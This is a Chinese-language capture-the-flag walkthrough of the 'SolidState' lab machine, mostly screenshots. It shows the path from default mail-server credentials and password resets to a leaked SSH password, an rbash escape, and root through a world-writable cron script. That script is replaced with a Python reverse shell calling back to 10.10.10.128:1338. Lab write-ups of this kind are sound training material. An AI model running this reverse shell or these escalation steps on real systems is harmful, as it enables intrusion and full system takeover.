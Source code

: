 # SolidState

![image-20200617022024782](assets/SolidState.assets/image-20200617022024782.png)



![image-20200617022457513](assets/SolidState.assets/image-20200617022457513.png)

![image-20200617022629960](assets/SolidState.assets/image-20200617022629960.png)

默认凭证直接进入

![image-20200617022731092](assets/SolidState.assets/image-20200617022731092.png)

直接改所有人的密码，为下一步准备

![image-20200617022948417](assets/SolidState.assets/image-20200617022948417.png)

用修改后的凭证进入邮件系统

![image-20200617023131902](assets/SolidState.assets/image-20200617023131902.png)

逐个用户查阅每一封邮件，最终mindy的第二封邮件得到ssh凭证

![image-20200617023258879](assets/SolidState.assets/image-20200617023258879.png)

```bash
username: mindy
pass: P@55W0rd1!2@
```

![image-20200617023503792](assets/SolidState.assets/image-20200617023503792.png)

rbash，重新登录带参数用以绕过

```bash
ssh mindy@10.10.10.130 'bash --noprofile'
```

![image-20200617024319230](assets/SolidState.assets/image-20200617024319230.png)

在opt目录下找到一个全局可写的脚本

![image-20200617025847107](assets/SolidState.assets/image-20200617025847107.png)

看脚本是执行清除tmp下面的文件

![image-20200617030144197](assets/SolidState.assets/image-20200617030144197.png)

但考虑到它被写成如果只有root可以运行它，并属于root，这表明root用户可能有一个cron作业设置了这个脚本。


这里我们需要制作rshell，因为在目标shell种打开vim等编辑器，难以正常输入。有另外一个技巧，就是在本地编辑好之后，直接复制代码黏贴到目标种

```bash
#!/usr/bin/env python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.10.128",1338))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"]);
```

现在本地写好脚本
然后vi tmp.py
进入之后按ESC进入命令行模式 输入 :.,$d 删除所有行
再按 i  进入编辑模式    直接粘贴
再按 ESC 进入命令行模式 
输入 :wq 保存退出

然后设立监听，等待即可得到root shell

![image-20200617030630878](assets/SolidState.assets/image-20200617030630878.png)